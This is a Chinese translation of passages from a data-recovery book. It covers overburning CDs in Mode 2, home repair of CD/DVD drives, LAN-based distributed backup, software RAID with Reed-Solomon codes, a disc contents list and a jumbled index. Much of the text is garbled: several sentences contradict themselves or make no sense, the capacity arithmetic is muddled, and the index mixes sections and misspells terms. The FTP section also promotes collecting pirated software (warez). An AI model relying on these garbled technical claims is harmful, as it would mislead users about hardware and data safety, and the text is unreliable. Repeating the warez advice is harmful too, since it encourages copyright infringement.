`CD` 刻录过程从准备源文件开始。对文件的唯一要求是其长度必须与扇区的整数倍对齐。假设文件长度为 777,990,272 字节。为了适应整数个 2,336 字节扇区，有必要从文件末尾截断 1,824 字节，或者在文件尾填充 512 个零。音频和视频文件能够痛苦地忍受文件体的被截断和尾部的填充垃圾数据。这两种操作可以使用任何十六进制编辑器完成，例如 `HIEW` (`http://www.softedia.com/get/Programming/Hiew.html`)。文件截断是极其容易的。打开文件，启动标准的 `Windows` 计算器，切换到科学模式，并将文件长度从十进制转换为十六进制：`777990272-1824 <ENTER> 777988448 <F5> 2E5F2960`（计算器应用程序的输出为粗体）。现在返回 `HIEW`，按 `<Enter>`，并从键盘输入得到的数字（在本例中此数字为 `2E5F2960`）。按 `<Enter>` 确认输入，然后顺序处理 `<F3>`、`<F10>` 和 `<Y>` 以确认截断。

要在文件尾部填充零，请按以下步骤操作：按 `<Ctrl>+<End>` 到文件末尾，然后按 `<F3>` 切换到编辑模式。按 `<0>` 直到达到所需的长度。实践中，文件截断要容易得多。被截断的 1,824 字节对应不到一秒的声音或视频；因此，你不会丢失任何东西。

现在，进行第二阶段——即创建包含所有刻录镜像结构信息的 `cue sheet`（索引文件）。一个典型的 `cue sheet` 文件应类似于列表 10.7 所示。

### 列表 10.7. 一个典型的 cue sheet 文件


`FILE` `my_file.dat` `BINARY`

`TRACK` `1` `MODE2/2336`

`INDEX` `1` `00:00:00`


在这个示例中，`my_file.dat` 是将写入光盘的文件名，`TRACK 1` 是轨道号，`MODE2/2336` 指定了刻录模式，`INDEX 1` 是文件内的索引号。关于 `cue sheet` 语法的更多细节可以在该程序提供的 `CDRW` 文书中找到。

现在，将 CD-R 或 CD-RW 插入驱动器，启动 `CDRW`，点击 `Cue Sheets` 按钮并指定新创建的 `cue sheet` 文件路径。等待文件编译完成，确保 `Raw Mode` 复选框未勾选，并点击 `Record Disc` 按钮（图 10.18）。就这些！尽管源文件的大小显著超过了声明的光盘容量，刻录过程仍成功完成。

所有使用操作系统内置工具查看录制光盘内容的尝试都将失败。`Windows` 试图确保你要读取的光盘是空的。事实并非如此。启动 `CDRW` 并选择 `Extract Disc/Tracks/Sectors sectors` 以打开 `Extract Disc/Tracks/Sectors to Image File` 窗口，其中轨道 1 将显示在 `Track Selection` 选项组中（图 10.19）。

## 第 10 章：恢复 CD

## 304 第三部分：备份媒体数据恢复


图 10.18. 使用 `CDRW` 在模式2 下刻录 800 MB 或 900 MB 光盘


图 10.19. 以标准模式读取 800 MB 或 900 MB 光盘


图 10.20. 将 800 MB 或 900 MB 光盘插入驱动器


图 10.21. 例如，考虑我插入子道数据中的信息

# 308 第三部分：备份媒体数据恢复

并非所有驱动器都支持读写子信道数据。请确保在 `CloneCD` 的配置参数（`Profile Parameters`）中设置了“从数据轨道读取子信道”，并取消勾选“不恢复子信道数据”（`Do not restore subchannel data`）；否则，操作将失败。


可以通过牺牲光盘引道区（lead-out area）来获得额外的 13 MB 空间，而该区域通常是不允许关闭的。现代驱动器可以读取缺失引道区的光盘。遇到无法执行此操作驱动器的风险微乎其微。要获得这段额外空间，只需取消光刻录工具中“始终关闭会话”（`Always close session`）复选框。

事实如此。标准编码的缺点显而易见，且之前已经提到。然而，目前无法强制驱动器使用更好的调制方式。在可预见的未来，可能会发生巨大变化。已经出现了允许手动合并位位的刻录机（这极大简化了受保护光盘的拷贝）。然而，尚未出现从接口层面读取合并位的驱动器。尽管如此，实际上任何现有的 CD-ROM 或 CD-RW 驱动器都可以通过增强来提供这种能力。要实现这一点，只需稍微修改其固件。通过对确实以 4x 速度运行的 CD-RW 驱动器（仅对高质量光盘无错误读取）进行实验，我将物理存储密度提高了 12%。这一结果是在几乎没有减少标准 700 MB 光盘有效容量的情况下实现的。这种光盘录制方法的缺点是与标准设备不兼容，因此影响了其便携性。尽管如此，这项技术看起来很有前景，前景良好。

## 光盘可靠性测试

使用模式 2（`mode 2`）对介质质量以及读录驱动器的技术特性提出了相当严苛的要求。否则，数据不可逆丢失的风险将变得过大，模式 2 变得才有必要。测试最近录制的介质是没有意义的。首先，需要了解缺陷的性质。其次，需要从多个相同的介质中积累关于介质可靠性的统计数据。

## 第 10 章：恢复 CD

为了获得可靠的结果，没有必要研究使用模式 2 录制的光盘。从物理角度来看，模式 1 和模式 2 实际上是完全相同的。你只需要知道 `CIRC` 码的能力是否足够。

使用 `Nero Speed` 或任何类似的工具，测试你的 CD-R 和 CD-RW 集合是否存在数据损坏。`CD Speed` 工具（图 10.22）将显示良好扇区、损坏扇区和不可读扇区。对于良好扇区，任何读取错误都会在 `CIRC` 解码器处恢复。损坏扇区在模式 1 级下无法恢复；然而，此类错误是不可恢复的，包含损坏扇区的的光盘不适合在模式 2 下录制。不可读扇区已被损坏，在任何层面上都无法恢复。光盘至少存在一个不可读扇区意味着情况不正常。因此，你要么使用更高质量的介质，要么使用 `CD-RW` 驱动器。同时，光盘末端附近的损坏扇区是可以接受的，因为该区域的引道扇区不包含任何任何数据。


> 图 10.22. 张在 `Teac 552` 上刻制的 `Verbatim` 光盘 (a) 展示了极高的刻制质量，非常适合在模式 2 下刻制；通用介质 (b) 在同一驱动器上刻制，有很多损坏扇区，不适合在模式 2 下刻制。

## 为什么你需要这个

`CD` 的低价削弱了模式 2 的优势。同时，模式 2 大大降低了数据存储可靠性，对于廉价介质来说，没有它已经足够低了。即使你录制 100 MB 数据，也只需要大约 20 张光盘，花费可能不到 10 美元。使用模式 2 值吗？

这取决于录制的数据类型。特别是将 `DVD` 重新编码为 `CD-R` 视频时，质量不可避免会下降。但将电影写入两张 `CD-R` 涉及开销太大，因此额外的 100 MB 空间就大有用场。此外，在选择压缩系数时，无法预测重编码文件的精确长度。因此，如果你花费了大量精力创建的文件超过了 `CD-R` 的容量 30–50 MB，你可能会感到苦恼。在这种情况下，你必须从光盘上删除文件并重复压缩程序，这需要 3 到 12 小时，取决于处理器速度。在模式 2 下写入此类文件可以帮你节省的时间比节省的钱更多。

## 第 11 章：家庭条件下的 CD/DVD 驱动器维修


`CD/DVD` 驱动器是最复杂的电子、光学和机械设备之一，但它们是最不可靠的计算机组件。失败的原因各不相同。通常是激光失效或失去发射。芯片组失效的频率更高，特别是当电机和激光聚焦线圈连接到同一个芯片上时。此外还有机械故障和光学表面的污染。

在家庭条件下修理故障的驱动器是现实的吗？还是说不浪费精力直接买一个新的更好？

并不是每个驱动器的故障都是致命的。通常情况下，即使在家庭条件下也可以修理驱动器，而不需要超出普通工程师能力的特殊电子设备或技能（图 11.1）。不要害怕对故障驱动器进行实验！它不会变得更糟的（只要故障驱动器的保修期已经过期）。可以去服务中心；但这需要花费时间和金钱。此外，这根本没趣。

维修需要备件。通常可以从朋友或同事那里获得，或者在二手配件市场购买。特别注意与你相同的组件相同的驱动器（主要涉及激光头和芯片组，可以在驱动器外壳上找到）。假设 `PCB` 故障，同类型的驱动器无法使用。

## 312 第三部分：备份媒体数据恢复


由于机械部件，可以更换。这里不提供故障排除的方法，因为目标列出主要的故障类型。

## 激光

`CD-RW` 和 `DVD-RW` 驱动器使用的激光发射器几年后经常失效。为什么会发生这种情况？首先是因为自然衰减；其次是因为

## 第 11 章：家庭条件下的 CD/DVD 驱动器维修

313

不利环境的影响。激光亮度的降低增加了读取和定位错误（某些光盘可能停止被识别）。通用制造商将所有参数设置为平均水平，对于某些磁头来说太低，对于另一些则太高。顺便说，可以通过简单增加电压来复活激光。追踪连接到激光发射器的导线。更好的维修方法如下：发现控制激光的芯片组型号（通常是芯片），并在互联网上查找其技术规格。在其他有用信息中，规格必须包含调节激光束功率的机制。通常，这项任务是由连接到芯片组（而不是激光头）的一个或多个电阻完成的。某些型号允许你通过技术文档中描述的特殊命令通过 `SCSI` 或 `ATAPI`，或者通过技术接口来调节激光。

# 314 第三部分：备份介质恢复

基本上，你可以拆卸激光头并直接更换发射元件。备用发射元件可以从另一个驱动器中获取。然而，必须提到的是，用户能够正确组装激光头的情况非常罕见。

## 芯片组

芯片组是 `CD/DVD` 驱动器的心脏。它不仅确保信息处理，还控制定位和旋转电机、激光头以及跟踪线圈。廉价制造商将整个芯片组集成到单个芯片中，并且不担心散热问题。结果是，芯片组迅速失效，发生线性烧毁。这导致驱动器部分或完全故障。

故障的芯片组的行为可能有所不同。它可能无法识别驱动器，或者仅仅是降低读取速度。如果芯片组保留了最小功能水平，使其在通电时能够识别驱动器并将光头移动到光片起始位置，随后它开始拖动对焦镜。如果这些事件没有发生，意味着芯片组或为芯片组服务的电气元件发生故障了（不过，为芯片组服务的电气元件很少故障）。

在家庭条件下更换烧毁的芯片组是不现实的任务。首先，无法购买备用芯片组。其次，芯片组的价格与整个驱动器的价格相当。第三，更换芯片组类似于珠宝匠的艺术，在没有专业设备的情况下，家庭条件下几乎无法实施。

另一方面，可以防止芯片组故障。使用双面胶或胶水，将即使是微小的散热器也贴在最大的芯片上（胶水更好，但胶带更便宜）。此外，最好用风扇为驱动器散热。为了实现这一点，可以在机壳背面钻孔并在那里安装风扇。为了避免芯片组故障，最好不要将驱动器放置在硬盘上方。这是因为驱动器（尤其是高速驱动器）的特点是发热量，会导致 `CD/DVD` 驱动器过热。

形式上，缓存内存不是芯片组的一部分；但它与芯片组密切相关。缓存内存也经常故障。如果缺陷涉及一个或多个单元，由于纠错码的存在，这通常对整个驱动器的运行没有影响。但在大规模破坏的情况下（更不用说缓存内存完全失效），驱动器要么停止读取光片，要么读取速度太慢且错误很多。由于 `CD/DVD` 驱动器使用的缓存内存与直插内存模块芯片相同，因此它是可以更换的——至少在理论上如此。在实践中，成功更换 `CD/DVD` 驱动器缓存内存取决于高质量的焊接。

## 第 11 章：家庭条件下的 CD/DVD 驱动器

## 机械损坏

`CD/DVD` 驱动器是极好的灰尘收集器。如果 `CD/DVD` 驱动器直接安装在硬盘散热器或风扇上方，情况尤其如此。灰尘通过 `CD/DVD` 驱动器外壳上的缝隙进入并在机械部件上形成沉积层。这加速了驱动器机械部件的磨损，导致完全损坏。驱动器可能会无法关闭光驱、在关闭光驱后立即弹出光片、无法旋转光片，或者旋转时发出异响。定位机制也是如此。

若要消除机械元件的问题，请拆卸驱动器，清除所有灰尘并润滑轴承。润滑油必须少用，且塑料齿轮不需要润滑。如有必要，调整间隙以确保所有部件旋转顺畅且不松动。确保所有的齿轮和轮齿没有被过度磨损。它们不能有碎裂的齿轮，那里不能有任何异物（主要涉及到在驱动器内碎裂的光片产生的碎屑，以及松动的电缆）。

首先，检查所有机械接触，包括插座、调谐电阻、按钮和开关以及光驱关闭传感器，以及电源线的完整性。如果电源短路（接口连接器）被不小心断开，细线可能会断裂，这种断裂在视觉上甚至即使使用欧用表也可能无法察觉。然而，在高频下（驱动器的正常工作条件），该该处断裂的存在会立即被察觉。

此外，要仔细观察所有摩擦的电缆。有时，摩擦会在它们上磨出孔，导致电缆短路或线芯断。有时，两种损坏同时发生，这在以 `Teac` 品牌销售但由三流公司组装的新 `Teac` 驱动器上尤为典型，因为 `Teac` 放弃了 `CD` 驱动器市场并将商标卖给了劣质制造商。

不要忘记保险丝。如果某些电缆连接错误，在断电期间可能会烧。现代保险丝不像常见的带有细丝的玻璃管。粗略观察保险丝时，它们几乎难以察觉。顺便说一下，通常会有多个保险丝，所以我建议检查所有你能找到的保险丝。

注意其他组件。漆膜膨胀、灰烬痕迹和物理缺陷（如裂纹）是故障源的明显证据。遗憾的是，大多数电子元件的故障无法通过视觉察觉。

要检查电机是否可用，将它们从驱动器上断开，然后连接到 5V 电源（黑线对应负极）。由于所有驱动器通常都是标准的，它们可以很容易更换。换句话说，我建议检查所有可以检查的内容，包括电解电、电阻、二极管、稳定器关键晶体管。

小型逻辑电路很少故障；然而，功率元件的故障是典型的。

## 光学

如果你不是老烟枪且从不直接向驱动器吹烟，那么激光已经失去了发射。如果透镜上覆盖有一层油膜，不要尝试手动去除。配制洗衣皂溶液，滴在透镜上，等待 15-20 分钟，然后将纸巾靠近透镜但不要接触其表面。之后，滴几滴蒸馏水在透镜上以清除肥皂水。

`CD/DVD` 驱动器故障的主要症状以及可能的故障原因简要列在表 11.1 中。

![img/ce3ad9a6814cc9d1e0010c22329.png]
图 11.2. 用刷子清理透镜只会损坏光学元件

## 第 12 章：分布式信息存储


保存信息的最好方法是与其分享。这是一个众所周知的事实。尝试通过让你的计算机在局域网（`LAN`）自动分数据来实现整个过程的自动化。

很久以前，在没有 `CD` 且磁盘损坏常有的年代，信息的丢失是常事。因此，程序员必须去朋友家里来反复拷贝程序。源代码和办公文档也保存在朋友和同事的电脑上，自然，是以加密形式存储的。你明白意思了吗？

当使用这种方法时，会发生一种著名的现象。植物学家称之为“交叉授粉”，而在黑客中这被称为“病毒流行”。病毒的传播速度极快，像森林火灾一样。一旦在文件交换期间感染了文件，它们就会根植于计算机，使得你几乎无法删除它们，还会发生多次感染和强化。现在，可以使用压缩软件打包分发 `set`，并开启防止修改或控制校验和的选项。幸运的是，这些操作既繁琐又耗时，尤其是如果你手动操作的话。此外，分布式数据存储通常是不平衡的：某些文件（程序、音乐或电影）任何人都可以访问；某些文件可能只存在一份，其丢失是不可替代的。

然而，程序员必须忙于处理一堆软磁盘和硬盘的时代早已过去了。现在，不出门就能交换文件。为什么不利用进步带来的优势呢？

### 如何保护信息

要创建分布式存储，非常有必要拥有一个无限流量的局域网，确保数据交换速率至少达到 10 Mbps。调制解调器可能有用。无线技术极大简化了组织工作。在最坏的情况下，可以使用互联网服务提供商，大多数他们以低廉的价格提供此类服务。

现在是时候考虑组织分布式存储的软件了。极简主义者（包括我）可以仅局限于 `Windows` 自带的文件共享功能。从 `Windows 2000` 开始，该系统开始支持磁盘配额，允许你限制分配给每个用户的最大磁盘空间。随着磁盘配额的引入，就不再需要担心有人会填满你的磁盘了。例如，可以为公共存储分配 10 GB，并分配适当的访问权限，让网络用户能够看到文件但无法修改或删除它们。在 `Windows XP` 下，没有比这更简单的了。只需允许所有者随心所欲，而其他用户只读即可。每个人都能备份邻居那里最珍贵的文件甚至是整个磁盘（图 12.1）。这样，就会形成一个类似于文件交换的网络，其他用户可以连接到上面。


图 12.1。配备无线适配器的笔记本电脑在不超过十个主机的网络中运行良好。然而，增长性问题开始出现。例如，有时用户根本记不住哪些文件已经备份，哪些还没有，更不用说是哪台电脑了。

此外，与专用服务器不同，家用电脑并不总是可用的。分布在百百台主机上的音乐、电影和软件存档实际上是免疫的（如果所有计算机同时故障，那意味着发生了某些灾难性事件，如地震或海啸）；然而，检索你的所有文件将花费很长时间。当你收集了所有内容后，可能会发现最重要的文件丢失了，因为只有一个备份不小心被删除了。但是，没时间哭了。现在是时候采取创造性的方法并使用 `emule` 了——这是一种可以找到几乎任何东西的文件交换网络。该系统会自动控制文件完整性，显示可用源的数量，并同时从所有可用主机下载，均匀地分配工作负载。你可以将用户分组，指定灵活的优先级系统，控制入站和出口流量等。

在 `eDonkey` 的经典版本中，没有强制上传的可能性。你所做的只是将文件上传到公共目录并等待有人下载它们。这种方法在交换视频和音乐时效果良好；遗憾的是，它不适用于备份，除非你同意定期查看所有网络成员公共文件夹的内容，发现新文件并在别人没有下载的情况下下载它们。可以建立任何阈值，例如，只下载存在于十个源中的文件（确切数字取决于网络大小——阈值越大越好）。不需要手动这样做！只需稍微修改 `emule` 即可（其源代码可以从 `http://www.emule-project.net/home/perl/general.cgi?l=1` 下载），或者编写一个插件。许多黑客（包括我在内）恰在做这件事。

`emule` 最明显的缺点是它绑定到了服务器，而这些服务器过度负载，因此工作性能差且缓慢。此外，这种解决方案不允许你选择性地配置带宽。因此，来自网络各个角落的许多都会尝试连接。每个防火墙都会轻松消除这些连接。然而，这解决不了所有问题，最重要的问题是你的小型私有网络从外部变得可见。

使用不需要专用服务器的点对点文件交换网络好得多，例如 `Gnutella` (`http://www.gnutella.com/connect/`)。该协议很久以前就被解密了，许多客户端带有源代码免费分发。对这些客户端进行轻微修改后，你将获得一个自动化分布备份的极佳工具，之后你就不再用担心数据安全了。

真正的程序员可以不为了自己的目的定制现有软件，而是自己运行这样一个程序。据我所知，目前还没有这样的程序；因此，一个工具很有可能变得流行。如果你考虑到通信链路的吞吐量正在稳定增长，流量每天变得繁忙，而且只有懒惰的人没有家庭网络，这一点就更为真实。换句话说，创建文件交换网络具备了所有前提；只缺少专门的软件。我好奇我们程序员在等什么。等新的 `Windows` 版本将此功能作为内置功能包含，并剥夺我们赚钱的机会吗？

## 文件传输协议服务器或公告板的重生

文件交换系统只有在大规模网络中才有存在的价值。在包括几十个主机的中型网络中，它们太笨重了。因此，使用文件传输协议（`FTP`）服务器作为分布式存储要得多。

必须记住，即使在点对点网络中，并非所有主机都有同等的权利和能力。有些用户负担得起每周运行 24 小时的计算机，有些则不能。有些用户拥有大硬盘、强大的处理器和高速网络连接；其他用户则无所有。文件交换网络为所有参与者提供平等权利，在这种情况下，10% 的客户端承担了 90% 的工作负载。诚实回答：你愿意在不获得回报的情况下为所有人提供服务吗？小型私有网络中的强大主机可以支持自己的 `FTP` 服务器，供所有其他用户进行上传和下载。

# 第 12 章：分布式信息存储 323

这是分布式存储；然而，它比之前描述的存储方式更快、更可靠。用户可以将数据备份到配备了不间断电源（`UPS`）、容错 `RAID` 等设备的服务器上。由于此类服务器的配额通常足够大，因此没有将文件分散到几十个服务器上。在这种情况下，创建两个或三个备份副本就足够了，而且不会产生任何混乱。

之后，只需要回答一个简单的问题了：为什么要安装和支持 `FTP` 服务器？将这项服务商业化似乎并不是一个能为你带来利润的主意。你的热情也并不那么乐观。尽管如此，拥有自己的 `FTP` 服务器是获取稀有且珍贵的音乐、电影和破解软件（`warez`）的最佳方式。大多数用户最频繁备份的文件是什么？按照惯例，这些是用户花费大量时间在网络上寻找和下载的珍贵文件（如果你买过的话它们就很昂贵）。如果你提供足够的磁盘空间进行存储，他们会乐意将所有东西上传到你的 `FTP` 服务器。很久以前，在没有互联网且软件被视为所有人的财产（并且必须字面意义上一段一段、逐位位地进行组装）时，这些财富的主要来源是公告板系统（`BBS`）。一个典型的 `BBS` 是一个配备调制调器的计算机，配置为接收拨入电话并存储上传的文件。系统操作员选择最有价值的文件并丢弃所有其他文件。

在我看来，这是一个可行的想法，`FTP` 服务器可以用于信息交换。

## 廉价磁盘冗余阵列 (RAID)

每个人都知道 `RAID` 控制器，因为现在在任何电脑商店都能买到。该设备允许你同时向多个磁盘写入数据。如果向磁盘写入不同的数据，数据交换量就会成比例增长。如果复制相同的数据，则存储的可靠性就会提高。`RAID` 可以在软件和硬件层面实现，而且构成阵列的存储媒体不需要集中在同一个位置。

对于软件 `RAID` 驱动程序来说，磁盘是通过 `SCSI` 还是 `IDE` 接口连接到本地机器，还是跨网络交换数据并不重要。通过将逻辑磁盘合并成虚拟 `RAID`，你将开发出一个实用且易于使用的容错系统。为了实现这一目的，可以使用不同几何结构甚至不同大小的磁盘。此外，没有必要将整个磁盘分配给 `RAID`。只需分配你需要的任何部分即可。

## 324 第三部分：备份介质数据恢复

如何利用这些可能性？首先想到的主意是使用硬盘容量的一部分存储冗余信息，例如里德-所罗蒙码（`Reed-Solomon codes`），这有助于在故障后恢复受损的信息。在这种情况下，较小的开销就能让你恢复任何硬盘，即使在它被完全毁的情况下。请注意，这一结果将是以牺牲分布在所有其他计算机上的冗余信息为代价实现的。要发明更可靠的信息存储方法是不可能的。例如，我在几个小型企业的局域网（`LAN`）中实现了一个系统，这些系统非常灵活、可靠且极具可行性。此外，在这种情况下，定期备份不再是一个问题，这对家庭用户来说非常方便。

软件 `RAID` 实现唯一的缺点是性能低。如果你在每秒处理数千次查询的服务器上安装软件 `RAID`，你不会在性能上获得任何提升。然而，性能的概念是非常可靠的。例如，如果你的服务器配备了足够快的处理器，实时编码和解码不会显著降低吞吐量。另一方面，如果读操作主于写操作，安装软件 `RAID` 是非常有益的，因为存储介质读取操作的完整性是由驱动器在硬件层面完成的。如果使用了系统编码（使用其他字节，信息通过奇偶字节分离），里德-所罗蒙解码器不需要干预这一过程。只有当部分信息严重损坏时才需要它的帮助，而这种情况很少发生。因此，没有必要为硬件 `RAID` 制造商支付过高。即使你想起他们并没有怎么关注家庭和小型办公室客户，事实也是如此。

通过改变纠错块的大小，可以以更高或更低的信息冗余水平来获得足够的数据保护。为了说明这一论点，我建议你考虑以下示例：假设你的磁盘上有 N 个扇区。通过将它们分组为包含 174 个扇区的块，并为每个块分配 3 个扇区用于存储校验和，你将能够恢复 N/174 个磁盘扇区。假设平均容量为 100 GB（对应于 107,374,182,400/209,715,200），即使这些扇区在物理层被毁，你仅需使用可用磁盘空间的 2%存储校验和，就能恢复 209,715,200/174=1,205,259 个扇区。很难否认，硬盘故障很少会如此迅速，至于里德-所罗蒙码的容量不足以恢复存储在那里的信息——前提是你察觉到了灾难来临的首要症状，并且正确选择了交错因子。关于交错因子的

## 第 12 章：分布式信息存储 325

的选择，有必要提到的是，属于同一个磁盘盘片的扇区必须由不同的错误控制块处理；否则，由于一个盘片上的物理表面缺陷，错误将会合并，导致给定程序无法恢复的另一个错误。

如果整个驱动器发生不可逆转的故障怎么办？解决数据救援问题最合理的方法是使用混合了纠错码的信息创建一个多个磁盘的阵列。这种方法的主要缺点是对于由少数磁盘组成的阵列来说效率很低。合理的最小配置如下：四个磁盘用于信息存储，一个磁盘用于纠错。在这种情况下，任何信息磁盘的丢失都将由幸存的错误控制磁盘补偿。如果包含纠错信息的磁盘丢失，可以用新磁盘替换并重新计算纠错码。然而，两个磁盘同时故障意味着灾难性的后果。一个由 15 个磁盘组成的阵列，其中 12 块存储信息，其余 3 块持有纠错码，更具容错性。它可以承受任何 2 块磁盘的同时崩溃，或者在有利的情况下甚至是 3 块磁盘。

用于创建自定义 `RAID` 驱动程序的最简单编码器和解码器的源代码可以从 `ftp://nezumi.org.ru` 下载。

# 里德-所罗蒙码 (Reed-Solomon Codes)

里德-所罗蒙码是非二进制线性分组码，与数值域上的循环码有关。里德-所罗蒙码是 `Bose-Chaudhuri-Hocquenghem` 码的子集。里德-所罗蒙码的纠能力直接取决于校验字节的数量。增加 r 个校验字节允许检测任意字节，并保证恢复其中 r/2 个。关于里德-所罗蒙码的更多细节可以在我关于 `CD` 破解的书中找到。

## 总结

在本章中，涵盖了几种最流行的分布式备份系统类型。总之，这类系统多得多。此外，新类型的分布式数据备份系统每天都在出现，尽管通常只以想法的形式存在。现成的实现很少，而且大多数是基于现有程序（例如 `eDonkey` 的插件）。因此，坐等别人来为你实现这些想法是没有意义的。

## CD 描述

`CD` 目录列表如下：

- `FIGURES` — 本书中提供的所有章节的彩色插图
- `LISTINGS` — 本书中提供的所有示例的源代码
- `SRC` — 用于从 `CD` 介质恢复数据的源代码和演示示例。其子目录结构如下：
  - `ETC` — 对 `CD-ROM` 驱动器进行底层访问的演示示例
  - `RS.LIB` — 用于 `CloneCD` 和 `Ahead Nero` 的 `CD` 扇区进行低级操作的库及其接口，并附有说明其实际用途的示例
  - `SCSI.ALT` — 允许从应用程序级别执行 `IN/OUT` 机器指令的驱动源代码
  - `SCL.LIB` — 作者开发的用于处理保护 `CD` 的工具和实用程序
  - `XCD.EMU` — 展示在数据写入 `CD` 之前进行扰乱（scrambling）操作的演示程序
- `UTILITIES` — 许多小型但有用的实用程序，包括 `Pinch of File` 块拷贝器，适用于对包含文件长度和起始扇区错误的文件的 `CD` 进行逐文件拷贝
- `README.TXT` — `CD-ROM` 的内容

## 索引

- `$AttrDef`, 130
- `$ATTRIBUTE_LIST`, 134, 142
- `$BadClus`, 130, 150
- `$Bitmap`, 130, 150
- `$BITMAP`, 178
- `$Boot`, 130, 150
- `$DATA`, 139, 143, 145, 169
- `$EA`, 143
- `$EA_INFORMATION`, 143
- `$Extend`, 150
- `$FILE_NAME`, 128, 142, 145, 153
- `$INDEX_ALLOCATION`, 143
- `$INDEX_ROOT`, 143
- `$LogFile`, 130, 149, 186
- `$LOGGED_UTILITY_STREAM`, 143
- `$MFT`, 130, 149, 178, 186
- `$MFTMirr`, 130, 149, 178, 186
- `$OBJECT_ID`, 142
- `$Objbld`, 150
- `$PROPERTY_SET`, 143
- `$Quota`, 130, 150
- `$Reparse`, 130, 150
- `$REPARSE_POINT`, 143
- `$Secure`, 150
- `$SECURITY_DESCRIPTOR`, 142
- `$STANDARD_INFORMATION`, 139, 142, 166
- `$SYMBOLIC_LINK`, 143
- `$UpCase`, 150
- `$UsnJrnl`, 141
- `$Volume`, 130, 150, 186
- `$VOLUME_INFORMATION`, 142
- `$VOLUME_NAME`, 142
- `$VOLUME_VERSION`, 142
- `/$BITMAP`, 166
- `/$LogFile`, 166, 178
- `/$MFT:$BITMAP`, 166
- `$Secure`, 178

## A

- `AAM`, 236
- `ACE Lab`, 1, 49, 50
- `Cronis DiskEditor`, 31
- `Active partition`, 114
- `Active Unaraser`, 124, 125
- `Active@Data Recovery Boot Disk`, 27, 97
- `Active@Data Recovery Software`, 22, 124
- `Adaptive settings`, 75
- `Advanced SCSI programming interface`, 17
- `AdvancedMDSEditor.exe`, 278
- `Ahead Nero`, 190
- `AIDA`, 15
- `Alcohol 120`, 262, 263, 277, 306
- `Allocated Size`, 185
- `Allocation strategies`, 174
- `AnalyHD`, 46
- `API`, 154, 180
- `Archive`, 144
- `ASCII`, 211
- `ASPI`, 17
- `ASPI32`, 191
- `Assembly`, 98, 154
- `ASUS`, 266
- `ATA`, 51, 58, 67, 82
- `ATA/ATAPI-6 specification`, 278
- `ATA-3`, 84

## B

- `Bad sector`, 103
- `Bart PE Builder`, 25, 34
- `BSB`, 323
- `BIEW`, 38, 22
- `BIGDOS FAT16`, 96
- `BIOS`, 13, 18, 81, 88
- `Blue Screen of Death`, 21
- `Bochs`, 110
- `Boot loader`, 18
- `Boot partition`, 106, 114
- `Boot sector`, 24, 116, 206
- `Bootstrap code`, 118
- `Bootstrap loader`, 97
- `Bose-Chaudhuri-Hochem codes`, 325
- `BPB`, 117, 118
- `Brown, Ralf`, 111
- `BSD`, 26, 45, 193, 197
- `BSD licenses`, 109
- `BSOD`, 21, 27, 283
- `Bus Hound`, 273

## C

- `C`, 154
- `CD`, 26, 17, 256, 269, 34, 248

## D

- `Daemon Tools`, 277
- `DAO`, 284
- `Data recovery`, 27, 86, 123, manual, 86
- `Data runs`, 123
- `Data streams`, 155
- `Debian`, 194
- `Debugs`, 47, 205
- `Defragmentation`, 7, 230
- `Deleted file records`, 183
- `Device`, 144
- `Direct memory access`, 50
- `DirectCD`, 288, 289
- `DirectShow`, 306
- `Disc at once`, 284
- `Disk`:
  - dynamic, 23, 97, 114
  - failure diagnostics, 86
  - logical, 85
  - physical, 85
  - space allocation, 174
- `Disk Manager`, 91, 99
- `Disk Monitor`, 176
- `DiskEdit`, 27
- `DiskExplorer`, 34, 82, 125, 131, 174, 184
- `DiskMon`, 180
- `Distributed data storage`, 290
- `DIX`, 298, 301, 305
- `DIY DataRecovery`, 43
- `DMA`, 50, 51, 199
- `DMA mode`, 237
- `DoctorHD`, 46
- `DVD`, 26, 284, 26, recovery, 248
- `DVD-ROM`, 62
- `DVDs`, 269
- `dwcreationDisposition`, 108
- `Dynamic disk`, 23, 97, 114
- `Dynamic volume`, 89

## E

- `ECC`, 113
- `eDononkey`, 205, 251, 321
- `EFM`, 266
- `EIDE`, 59
- `Eight-to-four modulation`, 266
- `Electronic key`, 51
- `Emule`, 321
- `EPOX 43+`, 234
- `Hdarmm`, 235
- `Hex notation`, 146
- `hexedit`, 38
- `HGST`, 57
- `Hidden`, 144
- `HIEW`, 37, 38, 98, 302, 307
- `Hitachi-IBM`, 57
- `HPFS`, 12, 143, 146

## J

- `JFS`, 231
- `Joliet`, 267, 289

## K

- `K Desktop Environment`, 26, 194, 204
- `KDE`, 26, 194, 204
- `khexit`, 38
- `KNOPX`, 26, 36, 230

## L

- `LAN`, 63
- `LBA`, 34, 81, 84, 85, 104, 274
- `IDE`, 17, 27, 56, 58, 271
- `bus`, 52
- `channels`, 232
- `controller`, 51, 113
- `InCD`, 289
- `Indirect blocks`, 208
- `Initialized Size`, 185
- `Inode`, 129, 209
- `structure`, 226
- `Input/output manager`, 198
- `INT 13h`, 102
- `Integrated drive electronics`, 17, 27, 56, 58, 271
- `International Standard Organization`, 25
- `Internet`, 101
- `Interrupt List`, 111
- `iomega Zip`, 293
- `iRecover`, 43
- `IRP_JMI_SET_INFORMATION`, 166
- `ISO`, 25, image, 25, 257
- `ISO 9660`, 1, 267, 289

## M

- `CD Speed`, 309
- `CD/DVD drives`:
  - failure diagnostics, 317
  - repairing, 311
- `CD-Data`, 298
- `CD-R`, 255
- `CD-ROM`, 62, 110
- `CD-ROM XA mode 2`, 299
- `CD-RW`, 17, 62, 255
- `CD-RW discs`, restoring, 261
- `CDWin`, 23, 262, 264, 306
- `CDQuad`, 288
- `CDsk`, 7, 12, 18, 22, 38, 42, 130, 170, 251
- `CHS`, 34, 81, 194
- `CIRC`, 298, decoder, 309
- `Cirrus Logic`, 55, class 100
- `Clean chamber`, 48
- `Clean room`, 48
- `CloneCD`, 264, 306, 307
- `Clusters`, 85
- `COM`, 69, 195
- `Compressed`, 144
- `Conner`, 56
- `CPU`, 60
- `CrashUndo`, 2000, 14, 18, 46
- `CreateFile`, 108, 163
- `Custer, Helen`, 124
- `Cylinder`, 181
- `Mac OS`, 256
- `Magnetic media`, fragmented

## 索引

`ntldlr`, 118
`toskrnl.exe`, 198, 200, 203
`nvidia`, 202

倍 l因子, 72
间隙区域, 265
主分区, 114

`O&O Defrag Pro`, 192
`Ontrack 数据恢复`, 44, 184
`OpenBIOS`, 111
`OpenDefrag 项目`, 191
`OSTA`, 293

`Quantum`, 56, 58
`Quantum AS`, 58
`QVIEW`, 37

`RAID`, 20, 62, 80, 323
- 经典线性, 113
- 级 0, 113
- 级 1, 113
- 级 5, 113
- 软件
- `RAID 1`, 82
